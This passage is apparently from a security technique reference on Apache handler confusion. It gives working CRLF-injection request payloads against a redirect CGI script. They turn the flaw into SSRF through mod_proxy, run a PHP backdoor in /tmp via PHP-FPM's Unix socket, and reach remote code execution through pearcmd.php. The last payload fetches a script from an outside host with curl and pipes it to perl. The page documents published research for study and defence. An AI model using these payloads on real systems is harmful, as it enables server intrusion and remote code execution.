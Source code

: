 #### **Arbitrary Handler to Full SSRF**

Redirecting to `mod_proxy` to access any protocol on any URL:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:
http://example.com/%3F
 %0d%0a
%0d%0a
```

However, the `X-Forwarded-For` header is added preventing access to cloud metadata endpoints.

#### **Arbitrary Handler to Access Local Unix Domain Socket**

Access PHP-FPM’s local Unix Domain Socket to execute a PHP backdoor located in `/tmp/`:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a
%0d%0a
```

#### **Arbitrary Handler to RCE**

The official [PHP Docker](https://hub.docker.com/\_/php) image includes PEAR (`Pearcmd.php`), a command-line PHP package management tool, which can be abused to obtain RCE:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}
orange.tw/x|perl
) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```

Check [**Docker PHP LFI Summary**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), written by [Phith0n](https://x.com/phithon\_xg) for the details of this technique.

## References

* [https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)

